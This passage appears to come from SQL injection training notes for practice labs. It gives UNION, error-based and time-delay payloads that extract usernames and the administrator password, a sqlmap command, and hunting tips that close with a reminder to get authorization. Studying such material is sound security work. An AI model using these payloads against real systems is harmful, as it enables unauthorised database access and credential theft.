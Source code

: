 **Finding number of columns:**
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  (continue until error)
```

**Determining data types:**
```
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

**Retrieving multiple values in a single column:**
```
' UNION SELECT NULL,CONCAT(username,':',password),NULL FROM users--
```

### 13. Blind SQL Injection Labs

**Conditional responses:**
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

**Conditional errors:**
```
' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)=1 --
```

**Time delays:**
```
'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users --
```

**Data exfiltration:**
```
'; SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN pg_sleep(5) ELSE pg_sleep(0) END --
```

## Real-Life Hunting Tips

1. **Always check the inputs**:
   - URL parameters
   - Form fields
   - HTTP headers (especially Cookie, User-Agent)
   - JSON/XML data in POST requests

2. **Look for error messages** that reveal SQL syntax or database information

3. **Test for blind vulnerabilities** when there are no visible errors

4. **Use automation tools wisely**:
   - SQLmap (`sqlmap -u "http://example.com/?id=1" --dbs`)
   - Burp Suite's Active Scanner

5. **Track your findings methodically** to avoid duplication of effort

6. **Always get proper authorization** before testing for SQL injection vulnerabilities

Remember, ethical hacking requires permission. Only use these techniques on systems you own or have explicit permission to test.
